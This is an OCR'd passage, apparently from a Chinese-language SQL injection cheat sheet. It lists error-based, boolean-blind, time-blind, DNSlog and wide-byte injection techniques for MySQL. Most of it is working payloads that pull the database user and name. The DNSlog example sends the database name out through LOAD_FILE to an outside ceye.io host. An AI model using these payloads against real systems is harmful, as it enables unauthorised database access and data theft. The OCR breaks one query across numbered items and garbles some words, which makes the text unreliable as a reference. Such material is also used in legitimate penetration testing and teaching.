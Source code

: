 站在开发的角度去寻找

四、报错注入方法

1、floor() :select count(\*) from information\_schema.tables group by concat((select

2、version()),floor(rand(0)\*2));https://github.com/ADOOO/Dnslogsqlinj

3、group by 会对 rand() 函数进行操作时产生错误

4、concat: 连接字符串功能

5、floor: 取 float 的整数值

6、rand: 取 0~1 之间随机浮点值

7、group by: 根据一个或多个列对结果集进行分组并有排序功能

8、extractvalue():extractvalue(1,concat(0x7e,(select user()),0x7e));

9、updatexml():select updatexml(1,concat(0x7e,(select user()),0x7e),1);

五、布尔盲注

1、left() 函数

left(database(),1)>'s'

database() 显示数据库名称, leȨ(a,b) 从左侧截取 a 的前 b 位

2、regexp

select user() regexp'^r'

正则表达式的用法 user() 结果为 root,regexp 为匹配 root 的正则表达式

3、like

select user() like'^ro%'

与 regexp 类似，使用 like 进行匹配

4、substr() 函数 ascii() 函数

substr() 函数 ascii(substr((select database()),1,1))<>98

substr(a,b,c) 从 b 位置开始，截取字符串 a 的 c 长度，ascii() 将某个字符转换为 ascii 值

5、ord() 函数 mid() 函数

ord(mid((select user()),1,1))=114

mid(a,b,c) 从位置 b 开始，截取 a 字符串的 c 位 ord() 函数同 ascii(), 将字符转为 ascii 值

六、时间盲注

if(left(user(),1)='a',0,sleep(3));

七、DNSlog 注入

SELECT LOAD\_FILE(CONCAT('\\\\\\\\',select database(),'.mysql.r4ourp.ceye.io\\\\abc'));

八、宽字节注入

1、在注入点后键入 %df, 然后按照正常的诸如流程开始注入
